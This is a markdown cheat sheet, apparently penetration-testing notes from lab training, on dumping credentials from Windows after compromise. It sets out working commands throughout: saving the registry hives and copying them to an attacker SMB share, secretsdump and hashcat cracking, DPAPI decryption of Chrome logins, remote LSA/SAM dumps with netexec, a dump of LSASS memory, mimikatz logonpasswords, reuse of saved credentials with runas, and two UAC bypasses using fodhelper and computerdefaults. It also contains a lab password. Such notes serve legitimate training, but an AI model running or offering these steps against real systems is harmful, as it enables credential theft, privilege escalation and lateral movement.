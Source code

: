 ```yaml
---
title: Windows Credential Dumping
category: Post-Exploitation
tags: [windows, credential-dumping, lsass, mimikatz, registry, dpapi]
tools: ['secretsdump', 'smbserver', 'mimikatz', 'hashcat', 'pypykatz' ]
---
```

Post-exploitation techniques for extracting credentials on Windows, including registry hive dumping, LSASS memory capture, DPAPI secrets, and Mimikatz usage. Enables escalation and lateral movement.

# Windows Credential Dumping

## Registry Hives

Back up the registry hives as local admin, security hive can contain cached domain creds and other valuable data.

### Copy target hive

````powershell
# Make a copy of the hives
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Copy the hives
C:\> move sam.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
````

### Dumping hashes with secretsdump.py

secretsdump.py will extract the system bootkey needed to dump the local SAM hashes.

`````bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Dumping local SAM hashes (uid:rid:lmhash:nthash)
`````

### Cracking hashes with Hashcat

- Populate retrieved hashes into > hashestocrack.txt
- For LM '-m' code see [wiki page](https://hashcat.net/wiki/doku.php?id=example_hashes)

#### Running Hashcat against NT hashes

```bash
# Craacking NT hashes
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#### DCC2 hashes

These are local, hashed copies of network credential hashes.

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

### DPAPI - Data Protection Application Programming Interface

```powershell
C:\Users\Public> mimikatz.exe

mimikatz: dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Remote dumping & LSA secrets

With local admin privlages

```bash
# Dumping LSA secrets remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

# Dumping SAM Remotely
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

---

## LSASS - Local Security Authority Subsystem Service

LSASS stores credentials that have ***active logon*** sessions on Windows systems.

### Dumping LSASS process memory

There is a GUI method for dumping the Local Security Authority Process with Task Manager.

Determine what process ID (`PID`) is assigned to `lsass.exe`. 

```powershell
# cmd.exe
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
System Idle Process              0 N/A
lsass.exe                      672 KeyIso, SamSs, VaultSvc

# PowerShell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass

# Create a dump file using PowerShell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

Copy the dump over using [this method](#copy-target-hive)

### [Pypykatz](https://github.com/skelsec/pypykatz) to extract credentials

> Mimikatz implementation in pure Python 

```bash
# Extract hashes
pypykatz lsa minidump /home/peter/Documents/lsass.dmp

# Crack NT hashes found
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Windows Vault and Credential Manager

### Enumerating credentials with cmdkey

```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Look for 'interactive=' and execute runas to impersonate the user:

```cmd
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

### Extracting credentials with [Mimikatz](https://github.com/ParrotSec/mimikatz)

Dump credentials from memory using the `sekurlsa` module, or manually decrypt credentials using the `dpapi` module.

May need to bypass UAC if no admin rights, impersonation does not grant admin permissions.

```cmd
# Target the LSASS process with sekurlsa:
C:\Users\Administrator\Desktop> mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

# Credential Manager
mimikatz # sekurlsa::credman

# Local passwords and hashes
mimikatz # sekurlsa::logonpasswords
```

Methods for getting passed UAC if no admin access:

```cmd
# fodhelper.exe
reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

# computerdefaults.exe
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
